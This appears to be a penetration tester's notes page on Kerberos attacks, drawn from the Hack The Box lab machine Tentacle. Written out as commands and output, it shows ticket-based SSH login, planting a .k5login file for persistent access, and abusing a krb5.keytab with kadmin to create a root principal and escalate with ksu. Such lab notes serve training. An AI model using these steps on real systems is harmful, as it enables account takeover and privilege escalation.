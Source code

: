 ```yaml
---
description: >-
  Kerberos Exploitation
title: Kerberos Exploitation              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Kerberos Exploitation]                     # Change Templates to Writeup
tags: [exploitation, kerberos, gssapi, k5login, krb5.conf, krb5.keytab]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Authentication method gssapi-with-mic (krb5.conf file)
If we receive the following message while trying to authenticate with any service:
```bash
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
```
This means that kerberos is running for the authentication of such services, to abuse of such configuration we need to install krb5-conf, it will create an environment on our machine that will allow kali to run as a kerberos client:
```bash
apt-get install krb5-user
```
Once that we receive a prompt asking for a domain we enter the realcorp.htb domain:
![[Pasted image 20230123134328.png]]
Then add the machine's IP twice:
![[Pasted image 20230123134422.png]]
The installation creates a fille called /etc/krb5.conf which we'll modify as follows:
```bash
[libdefaults]
 default_realm = REALCORP.HTB
[realms]
 REALCORP.HTB = {
 kdc = srv01.realcorp.htb:88
 }
[domain_realm]
 .realcorp.htb = REALCORP.HTB
 realcorp.htb = REALCORP.HTB
```
Then in order to connect to the SSH port we can use the following command which will ask for the password:
```bash
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```
After submit the password we'll find that there is a register with this same password created:
```bash
klist             
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
01/23/2023 15:10:38  01/24/2023 15:10:38  krbtgt/REALCORP.HTB@REALCORP.HTB
```
This should allow us to login without password via ssh:
```bash
ssh j.nakazawa@10.10.10.224                                            
j.nakazawa@10.10.10.224's password:
```
If still not possible to login via SSH then we need to sync the DC time with our machine:
```bash
ntpdate 10.10.10.224
2023-01-23 15:13:01.504643 (-0500) +1.004272 +/- 0.038425 10.10.10.224 s10 no-leap
CLOCK: time stepped by 1.004272
```
Then we'll be able to login:
```bash
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Mon Jan 23 20:05:55 GMT 2023 from 10.10.14.2 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ whoami
j.nakazawa
```
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:gssapi-with-mic)

### .k5login file
If we can create a .k5login file inside the /home of a user we can login with it always that we already have a Principal created with the krb-user tool, all we need to do is execute the following command:
```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```
Examples:
[[Tentacle#^217e6e]]

### Abusing krb5.keytab
If we get a krb5.keytab file we can abuse of it to list, create and login with principals:
```bash
klist -k /etc/krb5.keytab # list all the Principals
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB # Interactive shell as Principal kadmin/admin this needs to be a Principal from klist
kadmin: addprinc root@REALCORP.HTB # Create a Principal (password required)
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created. 
ksu
WARNING: Your password may be exposed if you enter it here and are logged in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
```
Examples:
[[Tentacle#^9c1475]]